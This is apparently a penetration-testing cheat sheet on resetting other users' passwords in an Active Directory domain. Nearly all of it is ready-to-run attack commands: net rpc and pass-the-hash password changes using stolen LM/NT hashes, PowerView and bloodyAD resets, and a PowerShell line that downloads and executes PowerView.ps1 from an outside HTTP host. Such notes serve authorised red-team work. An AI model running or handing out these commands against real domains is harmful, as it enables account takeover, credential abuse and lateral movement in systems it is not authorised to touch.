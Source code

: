 ## If Password of Source Account is Known

````bash
net rpc password jamie -U domain.local/john -S 192.168.210.10
net rpc password TargetUser -U <domain/your_user> -S <dc>
````

## Pass the Hash

```bash
pth-net rpc password 'TargetUser' "NewPassword" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

## PowerShell from another account if of Source Account is Known

````bash
$SecPassword = ConvertTo-SecureString 'your_password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\youruser', $SecPassword)

$UserPassword = ConvertTo-SecureString 'NewPassword' -AsPlainText -Force
Set-DomainUserPassword -Identity jamie -AccountPassword $UserPassword -Credential $Cred

Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $UserPassword -Credential $Cred
````

## PowerShell if logged into account

```bash
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')  
$NewPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force 

Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword   
```

### BloodyAD

```bash
bloodyAD --host "x.x.x.x" -d "DOMAIN" -u "USER" -p "PASSWORD" set password TargetUser NewPassword
```